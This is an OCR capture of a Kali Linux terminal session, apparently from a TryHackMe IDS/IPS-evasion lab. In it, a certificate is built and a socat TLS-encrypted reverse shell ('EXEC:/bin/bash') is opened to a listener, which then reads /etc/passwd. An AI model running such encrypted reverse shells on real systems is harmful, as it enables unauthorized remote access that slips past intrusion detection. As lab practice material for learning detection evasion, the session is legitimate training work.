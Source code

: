 ```
.+.+...+...+............+...+.....+....+...+..+...+.+.........+...........+.+...+..+...+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*.......+..+.........+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*....+....................+.........+.+..................+..+..........+.....+...+....+.....+.......+......+.....+...+.......+..+......+...............+......+...+.+..............+......+..........+..+..........+.........+......+........+.........+............+................+.................+.+.........+........+.......+..+.+..............+.+..............+.........+.+...........+.........+...+.+.........+.....+...+.......+...........+....+.....+......+.+...........+...+....+........+....+...........+...+......+.+...+.................+.......+..................+..+.+.....+..........+..+....+...+.....+.......+...+..+....+..+.......+..+...+.+..............+.......+.........+......+......+....................+....+..............+...............+.....................+...+...+....+........+..........+.......................+.......+...+.........+...+...+.....+.......+..+...............+............................+.....+.+.....+............+............+.............+...+....................................+........................+..............+.+..+..........+........+....+..+.+.................+.+.................+...+.+.........+............+....................+............+...+....+......+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
-----
                                                                                           
┌──(kali㉿kali)-[~/IDS_IPS_evasion]
└─$ ls
input.txt  thm-reverse.crt  thm-reverse.key
                                                                                           
┌──(kali㉿kali)-[~/IDS_IPS_evasion]
└─$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem

┌──(kali㉿kali)-[~]
└─$ socat OPENSSL:10.11.81.220:4443,verify=0 EXEC:/bin/bash


┌──(kali㉿kali)-[~/IDS_IPS_evasion]
└─$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/09/11 11:46:46 socat[43889] N listening on AF=2 0.0.0.0:4443
2022/09/11 11:47:16 socat[43889] N accepting connection from AF=2 10.11.81.220:53930 on AF=2 10.11.81.220:4443
2022/09/11 11:47:16 socat[43889] N forked off child process 44038
2022/09/11 11:47:16 socat[43889] N listening on AF=2 0.0.0.0:4443
2022/09/11 11:47:17 socat[44038] N no peer certificate and no check
2022/09/11 11:47:17 socat[44038] N SSL proto version used: TLSv1.3
2022/09/11 11:47:17 socat[44038] N SSL connection using TLS_AES_256_GCM_SHA384
2022/09/11 11:47:17 socat[44038] N SSL connection compression "none"
2022/09/11 11:47:17 socat[44038] N SSL connection expansion "none"
2022/09/11 11:47:17 socat[44038] N using stdout for reading and writing
2022/09/11 11:47:17 socat[44038] N starting data transfer loop with FDs [7,7] and [1,1]
cat /etc/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin

```
